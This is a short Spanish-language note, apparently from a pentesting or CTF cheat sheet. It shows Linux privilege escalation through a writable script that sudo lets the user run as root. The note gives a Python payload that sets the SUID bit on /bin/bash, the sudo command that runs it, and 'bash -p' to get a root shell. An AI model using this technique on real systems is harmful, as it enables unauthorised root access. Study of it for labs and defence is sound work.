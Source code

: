 Haciendo `sudo -l`, vemos los ficheros ejecutables sobre los que el usuarios con el que hemos entrado a un equipo puede ejecutar como el usuario root. Teniendo sus privilegios.

Si además, tenemos privilegios de escritura sobre el script que podemos ejecutar como root, podemos cambiar su contenido para que cambie el binario '/bin/bash' y hacerlo SUID.

Ejemplo en un fichero python:
> Borramos su contenido y creamos el propio.
```
import os

os.system("chmod 4775 /bin/bash")
```

Ejecutamos el script con sudo --> `sudo /usr/bin/python3 /opt/apache-activemq-5.9.0/subscribe.py`
Posteriormente sólo tendremos que ejecutar una bash --> `bash -p`
Seremos el usuario root.